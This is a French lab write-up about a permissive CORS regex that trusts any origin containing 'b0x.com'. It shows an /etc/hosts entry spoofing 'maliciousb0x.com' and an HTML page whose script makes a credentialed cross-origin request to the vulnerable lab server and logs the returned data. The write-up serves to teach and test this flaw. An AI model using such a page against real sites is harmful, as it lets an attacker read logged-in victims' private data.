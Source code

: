 # Application has bad "regex" Implementation to check Trusted Origin

Le second challenge propose une mauvaise configuration causée par l'utilisation d'une regex trop permissive :

![](../../../.gitbook/assets/d14588e5febcb7025ae9a4e2b24665b6.png)

En effet, il suffit simplement que le site \(le nom de domaine\) demandant la ressource possède l'occurrence `b0x.com`  pour être autorisé à accéder Sans cela, la requête sera bloquée par CORS :

![](../../../.gitbook/assets/00426f4f44f8eda143947717833de22e.png)

Pour simuler un nom de domaine malicieux mais contenant l'occurrence souhaité, il est possible de modifier le fichier `/etc/hosts` :

```text
192.168.56.182    maliciousb0x.com
```

Le script hébergé sur le serveur malicieux reste le même que pour le précédent challenge :

```markup
<html>
  <head>
    <title>CORS vulnerable lab - Bad regex implementation</title>
  </head>

  <body>
    <script>
      var xhr = new XMLHttpRequest();

      xhr.open('GET', 'http://192.168.56.184/bad_regex.php', true);
      xhr.withCredentials = true;

      xhr.onreadystatechange = function() {
        if (this.readyState === XMLHttpRequest.DONE && this.status === 200) {
          console.log(xhr.response);                    
        }
      }

      xhr.send();
    </script> 
  </body>
</html>
```

Le contenu du site vulnérable s'affiche bien dans la console lorsque la victime visite la page malicieuse :

![](../../../.gitbook/assets/1376c16a672bb6b061693e3b29c34a82.png)

La réponse lors de l'accès à la ressource contient bien l'entête CORS attendu :

![](../../../.gitbook/assets/c43a68d72fd288fa598ec1ee54b3d5c8.png)

